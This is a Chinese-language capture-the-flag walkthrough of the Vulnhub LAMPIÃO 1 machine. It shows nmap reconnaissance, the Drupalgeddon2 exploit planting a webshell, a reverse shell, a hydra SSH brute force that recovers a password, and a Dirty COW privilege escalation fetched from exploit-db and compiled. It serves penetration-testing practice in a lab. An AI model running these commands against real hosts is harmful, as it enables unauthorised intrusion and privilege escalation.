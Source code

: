 ```yaml
---

title: Vulnhub	249 LAMPIÃO 1

---
```


考点：drupal,hydra,暴力破解,dirtyc0w

靶机链接：<https://www.vulnhub.com/entry/lampiao-1,249/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| LAMPIÃO    | 10.0.2.9  |

## 初步打点

### 端口扫描

```bash
$ sudo arp-scan  -l           
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.9        08:00:27:58:66:90       PCS Systemtechnik GmbH
$ export tip=10.0.2.9         
$ sudo nmap -v -A -p- $tip    
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Lampi\xC3\xA3o
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### WEB测试

看来要在80和1898端口突破

80扫一下就挂了

1898端口打开是个Web应用，页脚显示drupal

使用`whatweb`探测一下drupa版本

```bash
$ whatweb  http://10.0.2.9:1898
http://10.0.2.9:1898 [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.0.2.9], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.24], PasswordField[pass], Script[text/javascript], Title[Lampião], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24]

```

大概率是Drupal 7

### 漏洞发现

试试[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

运行报错
```ruby
<internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require': cannot load such file -- highline/import (LoadError)
```

google查询安装`highline`即可

```bash
$ sudo gem install highline
```

运行后显示`drupalgeddon2.rb` 已写入webshell

![1](https://static.iihack.com/vulnhub/249/1.PNG)



## 获得权限

### 靶机测试

#### 思路一 Drupalgeddon2

通过[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)获得的webshell执行`id`

![2](https://static.iihack.com/vulnhub/249/2.PNG)

下载php-reverse-shell.php 访问，获得反弹shell

![3](https://static.iihack.com/vulnhub/249/3.PNG)

#### 思路二 暴力破解

##### 用户名

查看两个内容页面，对应用户名是 `tiago`和`Eder`作为用户名字典

```bash
$ cat user
tiago
eder
```

##### 密码

使用cewl获取个字典文件作为密码字典

```bash
$ cewl -w 1.txt http://10.0.2.9:1898/
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)                
```

##### hydra

使用[hydra](https://www.iihack.com/pages/tools/hydra.html)爆破ssh
```bash
$ hydra -L user -P 1.txt 10.0.2.9 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1688 login tries (l:2/p:844), ~106 tries per task
[DATA] attacking ssh://10.0.2.9:22/
[22][ssh] host: 10.0.2.9   login: tiago   password: Virgulino
```

获得tiago的密码

![4](https://static.iihack.com/vulnhub/249/4.PNG)

ssh登陆成功

![5](https://static.iihack.com/vulnhub/249/5.PNG)

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍，打算使用脏牛提权，运行成功后管理员密码被修改为`dirtyCowFun`

```bash
$ wget https://www.exploit-db.com/download/40847 -O 40847.c
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.c -lutil
$ ./dcow
```

![6](https://static.iihack.com/vulnhub/249/6.PNG)
